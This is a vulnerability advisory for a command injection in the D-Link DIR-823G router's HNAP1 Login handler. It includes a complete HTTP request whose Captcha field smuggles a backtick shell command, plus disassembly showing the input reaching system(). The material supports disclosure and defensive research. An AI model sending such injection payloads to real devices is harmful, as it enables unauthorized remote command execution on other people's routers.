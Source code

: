 # DIR-823G Command inject in HNAP #

DIR-823G
An issue was discovered on D-Link DIR-823G devices with firmware V1.0.2B05. There is a command injection in HNAP1  via shell metacharacters in the Captcha field to Login.
## Vulnerable Firmware Versions ##
**DIR-823G REVA1 1.02B05(Lastest) **

## Analysis ##
**Command injection in HNAP1 Login**

Bypass the check of "Captcha" by modifying in HTTP Message.

**payload:**

    POST /HNAP1/ HTTP/1.1
    Host: 192.168.0.1
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5 
    Accept-Encoding: gzip, deflate
    Content-Type: text/xml; charset=utf-8
    SOAPAction: "http://purenetworks.com/HNAP1/Login"
    Content-Length: 597
    X-Requested-With: XMLHttpRequest
    Content-Length: 453
    Origin: http://192.168.0.1
    Connection: close
    Referer: http://192.168.0.1/Login.html

    <?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><Login xmlns="http://purenetworks.com/HNAP1/"><Action>request</Action><Username>Admin</Username><LoginPassword></LoginPassword><Captcha>'`ls>/web_mtn/test0.txt`'</Captcha><PrivateLogin></PrivateLogin></Login></soap:Body></soap:Envelope>

![test0.png](https://i.loli.net/2020/09/06/8T2MihHPOvsmyqC.png)

**Vulnerability Description**

This occurs in /bin/goahead when a HNAP API function trigger a call to the system function with untrusted input form the request body.A attacker can execute any command remotely when they control this input.


    la  $v0, aEchoSVarHnaplo  # "echo '%s' >/var/hnaplog"
    addiu   $v1, $fp, 0x1448+var_1390
    move $a0, $v1 A
    li  $a1, 0x1387
    move $a2, $v0
    lw  $a3, 0x1448+arg_18($fp)
    jal snprintf
    nop
    addiu   $v0, $fp, 0x1448+var_1390
    move $a0, $v0 
    jal system


